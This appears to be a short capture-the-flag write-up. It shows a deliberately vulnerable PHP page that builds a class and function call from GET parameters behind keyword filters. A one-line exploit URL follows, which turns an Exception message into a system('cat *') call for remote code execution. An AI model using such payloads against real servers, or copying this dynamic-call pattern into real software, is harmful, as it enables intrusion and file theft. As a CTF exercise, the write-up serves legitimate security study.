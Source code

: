 ![[Pasted image 20230501145553.png|800]]

```
/shell.php
```

```php
<?php

error_reporting(0);
show_source(__FILE__);

$a = $_GET["a"];
$b = $_GET["b"];
$c = $_GET["c"];
$d = $_GET["d"];
$e = $_GET["e"];
$f = $_GET["f"];
$g = $_GET["g"];

if(preg_match("/Error|ArrayIterator|SplFileObject/i", $a)) {
    die("你今天rce不了一点");
}


if(preg_match("/php/i", $b)) {
 die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
 die("你今天rce不了一点");
}


$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php 
```

```
/shell.php?a=Exception&b=systemcat *&c=getMessage&d=0&e=6&f=6&g=5
```

![[Pasted image 20230501145514.png|800]]

#Web #RCE #PHP #shell #bypass 